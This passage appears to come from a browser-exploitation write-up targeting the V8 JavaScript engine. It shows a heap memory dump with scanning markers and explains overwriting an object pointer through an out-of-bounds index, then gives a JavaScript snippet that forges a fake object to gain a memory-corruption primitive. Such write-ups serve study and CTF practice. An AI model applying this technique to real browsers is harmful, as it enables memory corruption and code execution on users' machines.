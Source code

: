 ```text
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x28 ] -----
0x0000220f2ec82410    0x0000353622a01451    MAP_TYPE    
0x0000220f2ec82418    0x0000000300000000    
0x0000220f2ec82420    0x3ff199999999999a    
0x0000220f2ec82428    0x3ff199999999999a    
0x0000220f2ec82430    0x3ff199999999999a    
----- [ JS_ARRAY_TYPE : 0x20 ] -----
0x0000220f2ec82438    0x0000261a44682d41    MAP_TYPE    
0x0000220f2ec82440    0x0000353622a00c19    FIXED_ARRAY_TYPE    
0x0000220f2ec82448    0x0000220f2ec82471    FIXED_DOUBLE_ARRAY_TYPE    
0x0000220f2ec82450    0x0000006400000000    
----- [ FIXED_ARRAY_TYPE : 0x18 ] -----
0x0000220f2ec82458    0x0000353622a007a9    MAP_TYPE    
0x0000220f2ec82460    0x0000000100000000    
0x0000220f2ec82468    0x0000353622a005a9    ODDBALL_TYPE    
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x18 ] -----
0x0000220f2ec82470    0x0000353622a01451    MAP_TYPE    
0x0000220f2ec82478    0x0000000100000000    
0x0000220f2ec82480    0x3ff3333333333333    
----- [ JS_ARRAY_BUFFER_TYPE : 0x40 ] -----
0x0000220f2ec82488    0x0000261a446821b1    MAP_TYPE    
0x0000220f2ec82490    0x0000353622a00c19    FIXED_ARRAY_TYPE    
0x0000220f2ec82498    0x0000353622a00c19    FIXED_ARRAY_TYPE    
0x0000220f2ec824a0    0x0000000000000100    
0x0000220f2ec824a8    0x00005599e4b21f40    
0x0000220f2ec824b0    0x0000000000000002    
0x0000220f2ec824b8    0x0000000000000000    
0x0000220f2ec824c0    0x0000000000000000    
----- [ JS_ARRAY_TYPE : 0x20 ] -----
0x0000220f2ec824c8    0x0000261a44682de1    MAP_TYPE    
0x0000220f2ec824d0    0x0000353622a00c19    FIXED_ARRAY_TYPE    
0x0000220f2ec824d8    0x0000220f2ec824e9    FIXED_ARRAY_TYPE    
0x0000220f2ec824e0    0x0000000300000000    
----- [ FIXED_ARRAY_TYPE : 0x28 ] -----
0x0000220f2ec824e8    0x0000353622a007a9    MAP_TYPE    
0x0000220f2ec824f0    0x0000000300000000    
0x0000220f2ec824f8    0x0000001300000000    // MARK 1 for memory scanning
0x0000220f2ec82500    0x00002f3befd86b81    JS_OBJECT_TYPE    
0x0000220f2ec82508    0x0000003700000000    // MARK 2 for memory scanning
```

Good, the `FixedArray` with the pointer to the `Math` object is located right after the `ArrayBuffer`. Observe that we put markers so as to scan memory instead of hardcoding offsets (which would be bad if we were to have a different memory layout for whatever reason).

After locating the (oob) index to the object pointer, simply overwrite it and use it.

```javascript
let view = new BigUint64Array(evil_ab);
view[0] = 0x414141414141n; // initialize the fake object with this value as a map pointer
// ...
arr2[index_to_object_pointer] = tagFloat(fbackingstore_ptr);
packed_elements_array[1].x; // crash on 0x414141414141 because it is used as a map pointer
```
